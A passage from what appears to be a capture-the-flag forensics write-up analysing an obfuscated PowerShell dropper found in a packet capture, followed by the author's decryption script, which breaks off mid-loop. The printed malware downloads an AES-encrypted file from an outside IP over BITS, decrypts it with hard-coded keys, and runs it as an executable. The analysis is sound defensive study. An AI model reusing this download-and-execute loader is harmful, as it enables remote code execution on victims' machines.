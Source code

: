 The code is pretty obfuscated but after some work we are able to understand it pretty well:

```powershell
Set-Item Variable:QLz0sO System.IO.FileMode
Set-Variable l60Yu3 [System.Security.Cryptography.Aes]
Set-Variable BI34 [System.Security.Cryptography.CryptoStream]

${uRl} = "http://64.226.84.200/9497-4f0-53-41ab-9388-58a-ae1bd8-6"
${PTF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
Import-Module BitsTransfer
Start-BitsTransfer -Source ${uRl} -Destination ${pTf}
${Fs} = New-Object IO.FileStream(${pTf}, (Get-ChildItem Variable:QLz0sO).Value::Open)
${MS} = New-Object System.IO.MemoryStream
${aes} = (&('GI') Variable:l60Yu3).Value::Create()
${aEs}."KEYSIZE" = 128

${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${aES}."KEY" = ${KEY}
${Aes}."IV" = ${iV}

${cS} = New-Object 'System.Security.Cryptography.CryptoStream' `
    ($MS, $aes.CreateDecryptor.Invoke(), [System.Security.Cryptography.CryptoStreamMode]::Write)

${fs}.CopyTo.Invoke(${Cs})

${decD} = ${Ms}.ToArray.Invoke()

${CS}.Write.Invoke(${dECD}, 0, ${dECd}.Length)

${DeCd} | Set-Content -Path "$env:temp\tmp7102591.exe" -Encoding Byte

& "$env:temp\tmp7102591.exe"
```
The script connects to `${uRl} = "http://64.226.84.200/9497-4f0-53-41ab-9388-58a-ae1bd8-6"` and downloads an encrypted object.

The key used is `${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)` and the IV is `${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)`

With this information we can extract the transferred file (`tmp7102591.exe`) from the .pcap and decrypt it with the following script (we use powershell to avoid having to fully clean the script):

``` powershell
$cipherFile = "tcp_stream_2_data"

$plainFile = "out.bin"

${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv

$fsCipher = New-Object System.IO.FileStream($cipherFile, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read)
$fsPlain = New-Object System.IO.FileStream($plainFile, [System.IO.FileMode]::Create, [System.IO.FileAccess]::Write)

$cs = New-Object System.Security.Cryptography.CryptoStream($fsCipher, $aes.CreateDecryptor(), [System.Security.Cryptography.CryptoStreamMode]::Read)

$buffer = New-Object byte[] 1024
$read = $cs.Read($buffer, 0, $buffer.Length)
while ($read -gt 0)
```